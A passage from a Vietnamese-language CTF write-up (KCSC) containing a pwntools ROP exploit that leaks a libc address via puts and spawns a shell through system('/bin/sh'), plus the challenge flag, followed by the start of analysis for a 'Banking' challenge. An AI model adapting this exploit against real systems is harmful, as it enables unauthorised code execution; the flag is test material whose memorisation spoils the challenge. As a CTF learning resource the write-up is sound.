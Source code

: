 ```py=

payload = flat(
    POP_RDI, 
    elf.got['puts'],
    elf.plt['puts'],
    elf.symbols['main']
)
sla(b'reason?', b'a'*0x209 + payload)
ru(b'sonable!\n')
leak = rl()[:-1]
leak = int_from_bytes(leak)
print('leak: ', hex(leak))
libc.address = leak - libc.symbols['puts']
print('libc: ', hex(libc.address))
#GDB(p)

buy(b'dog', 1, b'\x0f'*0x3f0)
sla(b'-->', b'sell 2')
payload = flat(
    POP_RDI,
    next(libc.search(b'/bin/sh')),
    POP_RDI + 1,
    libc.symbols['system']
)
sla(b'reason?', b'a'*0x209 + payload)

#sla(b'reason', b'A'*0x500)




#KCSC{0h_n0_0ur_p3t_h4s_bug?!????????????????????}
p.interactive()
```

## Banking

### Phân tích chương trình

* Ban đầu chương trình cho `3` option

![Screenshot 2024-05-13 154750](https://hackmd.io/_uploads/BkFRmL1m0.png)

* `login`

![Screenshot 2024-05-13 154848](https://hackmd.io/_uploads/ry4-V8JX0.png)

* Nó check `account` và `password` dựa trên `2` biến global và nếu thỏa mãn thì trả về `true`
* `reg` là nơi chúng ta set giá trị `2` biến này

![Screenshot 2024-05-13 154945](https://hackmd.io/_uploads/BkLrE8JQC.png)
